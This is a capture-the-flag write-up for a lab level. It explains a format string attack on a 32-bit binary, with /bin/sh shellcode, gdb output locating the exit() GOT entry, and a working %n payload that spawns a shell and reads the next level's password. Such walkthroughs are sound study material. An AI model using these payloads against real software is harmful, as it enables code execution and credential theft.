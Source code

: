The program is quite simple. It records the user's input in a buffer with a call to fgets(). Then it makes a kind of tolower() for each uppercase alphabetic character in the buffer. Finally, the content of the buffer is displayed with a badly formatted printf() before the program exits using `exit(0)`. We will be able to perform a format string attack thanks to the badly formatted printf(). We will have to use a shellcode, and for its execution, we should be able to overwrite the address of exit() in the Global Offset Table (GOT).

1. First, let's export a shellcode in an environment variable and find its address using [this little script](env_addr.c):
```
level05@OverRide:~$ export SHELLCODE=$(python -c 'print "\x90" * 79 + "\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"')
level05@OverRide:/tmp$ gcc -m32 env_addr.c -o env_addr
level05@OverRide:/tmp$ ./env_addr SHELLCODE
0xffffd88a
```

2. Let's now get the address of exit() in the Global Offset Table using gdb:
```
(gdb) disas exit
Dump of assembler code for function exit@plt:
   0x08048370 <+0>:     jmp    *0x80497e0
   0x08048376 <+6>:     push   $0x18
   0x0804837b <+11>:    jmp    0x8048330
End of assembler dump.
```
So we now have the address we want to ovewrite: 0x80497e0.

3. Now, let's find the offset of the buffer:
```
level05@OverRide:~$ ./level05 
aaaa %x %x %x %x %x %x %x %x %x %x %x
aaaa 64 f7fcfac0 f7ec3af9 ffffd6cf ffffd6ce 0 ffffffff ffffd754 f7fdb000 61616161 20782520
```
Here we have the begining of the buffer (61616161 = "aaaa") with an offset of 10.

4. We can now build our payload. The first thing we want to write in the buffer is the address we want to overwrite, that is the exit() address int the GOT. Now that the buffer contains an address, it behaves like a pointer and we will be able to write to this address with the `%n` modifier: by specifying the buffer offset (`$10`), we can write in whatever the buffer points to.

But what do we want to write? The address of our shellcode of course. The difficulty here is that the `%n` modifier has a particular behaviour: it writes the number of characters that come before the occurrence of the modifier. We will have to write the number of characters corresponding to the decimal value of the address of our shellcode (0xffffd88a = 4294957194). Obviously, so many characters will never fit in the buffer, so we will use a modifier with a width field.

Here we encounter another difficulty: the decimal value of the shellcode address is too large to be stored on 32 bits. We will therefore split the address and write it on 8 bytes. Since we want to register the address in the little endian convention, we have to first give the two last bytes of the address. Since in 32-bit architecture the stack must be aligned to addresses that are multiples of 4, we will write to addresses 0x080497e0 and 0x080497e2.

For each part, we need to get the decimal value and substract from it the number of characters that have already been printed:
* 0xd88a = 55434, 55434 - 8 = 55426
* 0xffff = 65535, 65535 - 55434 = 10101

```
level05@OverRide:~$ python -c 'print "\xe0\x97\x04\x08" + "\xe2\x97\x04\x08" + "%55426d%10$n" + "%10101d%11$n"' > /tmp/exp
level05@OverRide:~$ cat /tmp/exp - | ./level05
...
whoami
level06
cat /home/users/level06/.pass
h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq
```
We can now reach the next level with the command `su level06` and fill in the flag found as a password.